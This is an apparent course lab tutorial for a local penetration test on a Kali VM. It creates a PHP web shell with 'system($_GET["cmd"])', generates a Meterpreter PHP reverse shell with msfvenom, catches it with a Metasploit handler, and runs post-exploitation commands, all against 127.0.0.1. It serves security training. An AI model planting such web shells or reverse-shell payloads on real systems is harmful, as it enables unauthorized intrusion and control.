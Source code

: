 # Pen-test
Lab: Conduct a Full Penetration Test
Estimated time needed: 20 minutes

Lab type: Local VM-based simulation
Environment: Kali Linux VM (Attacker), Simulated local users (Victims)

Overview
In this final lab, you will simulate a full internal penetration test from an attacker's perspective using Metasploit. You will prepare your Kali VM, create simulated vulnerable targets on the same system, execute attacks using Metasploit, and practice documenting your findings. This hands-on simulation mirrors how internal Red Teams operate.

Learning objectives
By the end of this lab, you will be able to:

Prepare a local penetration testing environment
Simulate internal victims and services
Perform reconnaissance and exploitation using Metasploit
Capture Meterpreter sessions and conduct post-exploitation
Document findings professionally
Step 1: Prepare the environment
1.1 In your Kali VM terminal, run:

1
2
sudo apt update
sudo apt install -y ruby-full nmap netcat-traditional iproute2 php

Copied!

Wrap Toggled!
Why this matters
Preparing the environment ensures your tools are updated and installed correctly, just like real attackers and testers do before launching operations. This step sets the technical baseline for all future actions in the engagement.

Step 2: Simulate victim users and services
2.1 In the same terminal, create victim users and a simulated vulnerable web app:

1
2
3
4
5
6
sudo adduser victim --disabled-password --gecos ""
sudo adduser webuser --disabled-password --gecos ""
sudo mkdir -p /home/webuser/web/uploads
echo '<?php system($_GET["cmd"]); ?>' | sudo tee /home/webuser/web/uploads/upload.php
echo "FLAG{simulated_web_flag}" | sudo tee /home/webuser/web/uploads/flag.txt
sudo chown -R webuser:webuser /home/webuser/web

Copied!

Wrap Toggled!
2.2 Add and interact with a fake Echo server:

2.2.1 Create the fake server script:

1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
sudo tee /home/victim/fake_service.py > /dev/null << 'EOF'
#!/usr/bin/env python3
import socketserver
class EchoHandler(socketserver.BaseRequestHandler):
    def handle(self):
        self.request.sendall(b"Welcome to Echo Service\r\n")
        while True:
            data = self.request.recv(1024)
            if not data:
                break
            self.request.sendall(b"ECHO: " + data)
if __name__ == "__main__":
    with socketserver.TCPServer(("0.0.0.0", 9003), EchoHandler) as server:
        server.serve_forever()
EOF

Copied!

Wrap Toggled!
2.2.2 Make it executable and run:

1
2
3
sudo chmod +x /home/victim/fake_service.py
sudo chown victim:victim /home/victim/fake_service.py
sudo -u victim nohup python3 /home/victim/fake_service.py > /tmp/fake_service.log 2>&1 &

Copied!

Wrap Toggled!
2.2.3 Test its behavior:

1
nc 127.0.0.1 9003

Copied!

Wrap Toggled!
Type any message and see how it's echoed back. This models internal services that can be fuzzed or misused by attackers.

1
2
3
4
hi
ECHO: hi
how are you
ECHO: how are you

Copied!

Wrap Toggled!
1
ctrl+c

Copied!

Wrap Toggled!
Why this matters
Simulated users and services allow you to mimic internal infrastructure in a safe environment. Red Teams often replicate target environments to test exploitation techniques without affecting real systems.

Step 3: Perform reconnaissance
3.1 Scan the local system for open services:

1
nmap -p 22,8080,9003 127.0.0.1

Copied!

Wrap Toggled!
3.2 Analyze the output. Look for service banners or any misconfigurations or unknown services.

Why this matters
Recon is the first real step in any penetration test. It mirrors how attackers gather information to find open ports, services, and weak points before launching more targeted attacks.

Step 4: Exploit a vulnerable web app
4.1 Generate a Meterpreter reverse shell in PHP:

1
2
3
msfvenom -p php/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4443 -f raw -o shell.php
sudo cp shell.php /home/webuser/web/uploads/shell.php
sudo chown webuser:webuser /home/webuser/web/uploads/shell.php

Copied!

Wrap Toggled!
4.2 Start Metasploit in a new terminal:

1
msfconsole

Copied!

Wrap Toggled!
4.3 Inside Metasploit:

1
2
3
4
5
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 127.0.0.1
set LPORT 4443
run

Copied!

Wrap Toggled!
4.4 In the first terminal, start PHP web server:

1
sudo -u webuser php -S 127.0.0.1:8080 -t /home/webuser/web/uploads

Copied!

Wrap Toggled!
4.5 In a third terminal, trigger the shell:

1
curl http://127.0.0.1:8080/shell.php

Copied!

Wrap Toggled!
Step 5: Post-exploitation
5.1 Inside Meterpreter:

1
2
3
4
sysinfo
getuid
ls
cat flag.txt

Copied!

Wrap Toggled!
5.2 Drop to a shell:

1
2
3
4
shell
whoami
id
uname -a

Copied!

Wrap Toggled!
Step 6: Document your work
6.1 Create a professional penetration testing report. Include:

Executive summary
Scope and methodology
Vulnerabilities found (with proof: logs, screenshots, CVSS score)
Exploitation steps
Post-exploitation findings
Remediation advice
Click here for a hint/solution
Example of Metasploit output if all steps are completed correctly: 
Challenge (optional)
Identify one way to escalate privileges from a standard user (e.g., victim) to root using only local techniques.
Hint: Check sudo permissions, SUID binaries, or misconfigurations.

Cleanup
7.1 To stop services:

1
2
3
4
sudo pkill -f php
sudo pkill -f msfconsole
sudo pkill -f ruby
sudo pkill -f fake_service

Copied!

Wrap Toggled!
7.2 To remove simulated users and files:

1
2
sudo deluser --remove-home victim
sudo deluser --remove-home webuser


Wrap Toggled!
What you accomplished
In this lab, you:

Set up a controlled attack environment with Metasploit and tools
Created simulated victim users and vulnerable services
Performed reconnaissance with Nmap
Exploited a command injection via a PHP reverse shell
Established a Meterpreter session
Practiced post-exploitation tasks
Documented findings in a professional report
Real-world application
Penetration testing is essential to cybersecurity. This lab mirrors how ethical hackers and Red Teams simulate real attacks to uncover risks.

Why this matters
Reconnaissance: Simulates how attackers discover network exposure
Exploitation: Demonstrates how attackers take advantage of poor configurations
Persistence and shells: Models attacker behavior after gaining a foothold
Reporting: Translates findings into business and technical decisions
These skills form the foundation of careers in offensive security, Red Teaming, and vulnerability assessment.
